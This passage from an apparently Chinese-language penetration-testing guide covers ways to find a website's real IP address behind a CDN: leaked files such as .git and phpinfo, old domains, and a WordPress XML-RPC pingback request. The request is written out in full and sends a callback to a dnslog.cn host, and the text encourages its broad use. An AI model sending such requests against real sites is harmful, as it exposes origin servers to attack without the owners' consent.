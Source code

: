 - 服务器日志文件
- 探针文件，例如 phpinfo
- 网站备份压缩文件
- .DS_Store
- .hg
- .git
- SVN
- Web.xml

## 08 历史域名

很多网站在发展的过程中，会更换域名，比如京东以前的域名是 360buy.com ，后来斥巨资购买了 jd.com 。

网站在更换新域名时，如果将 CDN 部署到新的域名上，而之前的域名由于没过期，可能未使用 CDN，因此可以直接获得服务器 IP，所以，历史域名也是一个很重要的点。

## 09 WordPress通过 XML-RPC PINGBACK 通信

XML-RPC 是支持 WordPress 与其他系统之间通信的规范，它通过使用 HTTP 作为传输机制和 XML 作为编码机制来标准化这些通信过程。

在 WordPress 的早期版本中，默认情况下已关闭 XML-RPC，但是从3.5版本开始，默认情况下开启。

XML-RPC 支持 trackback 和 pingback。

虽然 WordPress 启用了 REST API 来代替 XML-RPC ，不过 XML-RPX 不会过时的，放心大胆的使用就好，虽然 XML-RPC 这个技术很老了，但依然可以通杀很多网站。

```http
POST /xmlrpc.php HTTP/1.1
Host: domain.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 323

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://2vbis4.dnslog.cn</string></value>
</param>
<param>
<value><string>https://domain.com/</string></value>
</param>
</params>
</methodCall>
```

## 10 APP
